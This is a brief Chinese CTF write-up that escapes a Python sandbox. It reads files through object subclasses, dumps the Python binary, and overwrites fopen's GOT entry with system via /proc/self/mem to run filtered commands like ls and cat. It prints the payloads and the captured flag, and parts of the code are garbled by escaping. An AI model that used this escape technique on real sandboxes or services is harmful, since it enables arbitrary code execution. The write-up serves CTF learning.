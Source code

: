 # Run1

## 解题思路

> nc连上得知是一个python环境沙箱,是要逃逸getshell.

> 上来一通fuzz之后,发现七七八八的全部被ban,而通过()基类中的file 可以进行文件读取

> 通过('/usr/bin/python','r').read()把python进程dump下来

```
echo "print ().__class__.__bases__[0].__subclasses__()[40]('/usr/bin/python','r').read()"|nc 127.0.0.1 9999 > python
```

> 修复下dump下来的elf文件,objdump分析下

```
objdump -R python|grep -E "system|fopen"
```

> 读取system地址将其写入fopen中,调用fopen即可getshell,还有cat and ls的命令绕过

```
(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().class.bases[0].subclasses()[40]( "l'+'s"))(().class.bases[0].subclasses()[40]( "/proc/self/mem','r"),().class.bases[0].subclasses()[40]( "/proc/self/mem', 'w', 0\)\)

5c72a1d444cf3121a5d25f2db4147ebb

bin

cpython.py

cpython.pyc

sandbox.py

\(lambda r,w:r.seek\(0x08de2b8\) or w.seek\(0x08de8c8\) or w.write\(r.read\(8\)\) or \(\).__class__.__bases__\[0\].__subclasses__\(\)\[40\]\('c'+'at5c72a1d444cf3121a5d25f2db4147ebb"))(().class.bases[0].subclasses()[40]("/proc/self/mem','r"),().class.bases[0].subclasses()[40]('/proc/self/mem', 'w', 0))


flag{eee93c33d97aa55f785a7d10ba4ae3ce}
```

## flag

> flag{eee93c33d97aa55f785a7d10ba4ae3ce}
